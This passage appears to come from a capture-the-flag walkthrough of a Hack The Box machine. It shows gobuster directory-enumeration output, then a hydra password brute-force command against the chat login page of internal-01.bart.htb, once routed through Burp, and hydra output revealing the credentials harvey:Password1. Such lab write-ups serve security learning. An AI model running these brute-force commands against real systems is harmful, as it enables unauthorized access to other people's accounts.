 ```
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          75
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/09/04 12:18:36 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 0] [--> ../]
/login.php            (Status: 302) [Size: 0] [--> login_form.php]
/register.php         (Status: 302) [Size: 0] [--> register_form.php]
/media                (Status: 301) [Size: 169] [--> http://internal-01.bart.htb/simple_chat/media/]
/chat.php             (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
/css                  (Status: 301) [Size: 167] [--> http://internal-01.bart.htb/simple_chat/css/]
/includes             (Status: 301) [Size: 172] [--> http://internal-01.bart.htb/simple_chat/includes/]
/Index.php            (Status: 302) [Size: 0] [--> ../]
/Login.php            (Status: 302) [Size: 0] [--> login_form.php]
/js                   (Status: 301) [Size: 166] [--> http://internal-01.bart.htb/simple_chat/js/]
/logout.php           (Status: 302) [Size: 0] [--> ../]
```

- Let's launch `hydra`
  - https://github.com/gnebbia/hydra_notes
  - To send `hydra` to `Burp` we can `HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -l harvey -P /usr/share/wordlists/rockyou.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"`
  - `harvey:Password1`
```
└─$ hydra -l harvey -P /usr/share/wordlists/rockyou.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"               
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-04 12:40:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://internal-01.bart.htb:80/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password
[STATUS] 716.00 tries/min, 716 tries in 00:01h, 14343683 to do in 333:54h, 16 active
[STATUS] 695.00 tries/min, 2085 tries in 00:03h, 14342314 to do in 343:57h, 16 active
[80][http-post-form] host: internal-01.bart.htb   login: harvey   password: Password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-04 12:45:17

```
